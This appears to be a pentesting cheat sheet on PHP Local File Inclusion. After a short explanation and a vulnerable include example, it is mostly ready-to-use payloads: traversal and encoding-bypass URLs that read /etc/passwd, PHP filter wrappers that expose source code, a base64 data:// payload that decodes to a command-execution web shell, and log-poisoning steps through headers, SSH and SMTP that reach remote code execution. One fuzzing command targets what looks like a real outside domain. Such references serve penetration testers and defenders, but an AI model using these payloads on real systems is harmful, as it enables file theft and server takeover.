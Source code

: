 # LFI

## Local File Inclusions (LFI)

{% hint style="info" %}
An attacker can use **Local File Inclusion** (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even XSS.

Typically, LFI occurs when an application uses the **path to a file as input**. If the application treats this input as trusted, a local file may be used in the include statement.
{% endhint %}

### Check for LFI

The following is an example of **PHP code that is vulnerable to LFI**.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

* **GET** parameter in url

{% embed url="https://github.com/kurobeats/fimap" %}
Tool to check LFI
{% endembed %}

### Payloads

```
http://example.com/index.php?page=../../../etc/passwd
http://example.thm.labs/page.php?file=/etc/passwd 

# NULL BYTE
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 

# FILTER BYPASS TRICKS
http://example.com/index.php?page=....//....//etc/passwd
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# DOUBLE ENCODING
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 ENCODING
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

#### FUZZ LFI ENDPOINTS

```bash
wfuzz -c -w list-lfi.txt --hc 404,400 --hw 0 https://metabase.peren.fr/api/geojson?url=file:///FUZZ
```

### PHP Wrapper

* Used to read **.PHP files**. It is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. We can use the PHP filter to display the content of PHP files in other encoding formats such as base64 or ROT13.

**Commands**

```
http://example.com/page.php?file=php://filter/resource=/etc/passwd

http://example.com/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd

http://example.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

## LFI 2 RCE

### /proc/self/environ

> Like a log file :

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### via SSH

```bash
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
# Then include the SSH log files inside the Web Application :
# http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### via MAIL

> First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.

```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

> In some cases you can also send the email with the mail command line.

```bash
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

